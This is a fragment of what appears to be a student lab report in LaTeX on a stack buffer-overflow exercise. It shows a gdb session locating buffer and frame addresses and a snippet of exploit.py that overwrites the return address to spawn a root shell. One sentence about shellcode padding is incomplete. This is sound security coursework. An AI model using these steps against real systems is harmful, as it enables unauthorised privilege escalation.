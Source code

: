 \documentclass[a4paper,11pt]{article}
\begin{document}
\begin{lstlisting}[caption={GDB debug for the stack},label={lst:task3.10-1},language=BASH,breaklines=true]
gdb-peda$ b bof
Breakpoint 1 at 0x80484f4: file stack.c, line 15.
gdb-peda$ run
gdb-peda$ p/x &buffer
$1 = 0xbfffeee0
gdb-peda$ p/x $ebp
$2 = 0xbfffefd8
gdb-peda$ p/d 0xbfffefd8-0xbfffeee0
$3 = 248

\end{lstlisting} 


then, edit the \verb|exploit.py| as Codeblock \ref{lst:task3.10-2} filling out the address found by GDB.
\begin{lstlisting}[caption={exploit.py Major Part},label={lst:task3.10-2},language=PYTHON,breaklines=true]
#########################################################################
buffer_add = 0xbfffeee0
ebp_add = 0xbfffefd8
offset = ebp_add - buffer_add + 4
ret = buffer_add + offset + 100

content[offset:offset + 4] = (ret).to_bytes(4,byteorder='little')
#########################################################################

\end{lstlisting} 

\begin{figure}[h]
    \centering
       \includegraphics[width=0.7\textwidth]{figures/section3/sec3-1.png}
    \caption{Buffer Address}\label{fig:task10.1}
\end{figure}


Obviously, we should add a $SHIFT  > 45 + 4$ to the shellcode as Codeblock.

Finally, we compile and run the exploit and stack again, respectively. And we can launch the shell with root privilege, figured as \ref{fig:task10-3}.
\begin{figure}[h]
    \centering
       \includegraphics[width=0.7\textwidth]{figures/section3/sec3-3.png}
    \caption{Execute Result}\label{fig:task10-3}
\end{figure}
\end{document}
